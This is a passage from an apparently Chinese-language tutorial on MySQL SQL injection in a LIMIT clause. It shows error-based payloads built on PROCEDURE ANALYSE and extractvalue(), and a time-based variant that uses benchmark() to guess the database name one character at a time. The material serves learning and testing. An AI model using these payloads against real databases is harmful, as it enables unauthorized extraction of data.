 如果有时候第二个注入点不能使用的话，可以不跟在第二个参数后面，直接跟在第一个参数后面，并且不要第二个参数：

```
select * from users order by id limit 0 procedure analyse(1,extractvalue(1,concat(0x7e,(select database()))));
```





###### 时光注入



>  把这个称为时光注入的原因是，因为此注入方式比较扯



此处讲一下一个很重要的函数：`benchmark()`



`benchmark`函数是通过大量的计算表达式，来达到时间注入的目的

语法：

```
benchmark(count,expr)				//函数示例：benchmark(5000000,sha(1))
```

参数：

> 此处先说expr，也就是第二个参数

+ `expr`：表达式，一般设置为`md5(1)`或`sha(1)`。一般是用于设置要进行计算的表达式

+ `count`：一般为较大的数字。用于设置计算次数



此处的时光注入，还是需要`procedure analysse`函数，还需要报错函数`extractvalufe()`配合



payload：

```
select * from users order by id limit 0,1 procedure analyse((select extractvalue(1,concat(0x7e,(if((mid(database(),1,1)='s'),benchmark(5000000,sha(1)),1))))),1);
```

> emmm……自己看一下逻辑顺序，
>
> 其实就是`analyse()`函数第一个参数里`select`一个`extractvalue`函数，然后函数里面本该查询的地方，又放了一个`if`判断式子。同时`mid`函数代替了`substr`。`benchmark`代替了`sleep`。最后面是`analyse`的第二个参数



时光注入爆库名

```
select * from users order by id limit 0,1 procedure analyse((select extractvalue(1,concat(0x7e,(if((mid(database(),1,1)='s'),benchmark(5000000,sha(1)),1))))),1);
```



